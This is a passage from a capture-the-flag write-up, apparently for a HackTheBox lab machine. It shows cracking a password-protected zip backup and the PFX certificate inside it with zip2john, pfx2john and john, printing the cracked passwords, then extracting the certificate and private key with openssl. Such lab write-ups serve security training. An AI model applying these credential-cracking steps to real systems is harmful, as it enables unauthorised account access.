 Downloading this with `get`, we find that the zip file is password protected.
Using john, we can crack the hash.
```
┌──(tsunami㉿coffee)-[~/Documents/timelapse]
└─$ zip2john winrm_backup.zip > zip_file_hash.txt

┌──(tsunami㉿coffee)-[~/Documents/timelapse]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2025-07-12 02:08) 1.020g/s 3542Kp/s 3542Kc/s 3542KC/s surkerior..superrbd
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
![capture-5](capture-5.PNG)

Once we have unlocked the zip file, the pfx file is also password protected, we can use pfx2john to crack the password again.
```
┌──(tsunami㉿coffee)-[~/Documents/timelapse]
└─$ pfx2john legacyy_dev_auth.pfx > pfx_hash.txt
                                                                                                                                           
┌──(tsunami㉿coffee)-[~/Documents/timelapse]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt pfx_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:48 11.10% (ETA: 02:22:06) 0g/s 36728p/s 36728c/s 36728C/s greenRING3..grapekey924
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:01:20 DONE (2025-07-12 02:16) 0.01242g/s 40156p/s 40156c/s 40156C/s thugways..thugers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
![capture-7](capture-7.PNG)
With the password for the pfx file obtained, we have to extract the cert and key from it.
```
┌──(tsunami㉿coffee)-[~/Documents/timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.pem
Enter Import Password:
                                                                                                                                           
┌──(tsunami㉿coffee)-[~/Documents/timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out key.cert
Enter Import Password:
```
![capture-8](capture-8.PNG)
<br>
With some guessing, we can assume this file is for the `legacyy` user, however, we can find this out with `openssl x509 -in cert.pem -text -noout`
this will reveal: `othername: UPN:legacyy@timelapse.htb`
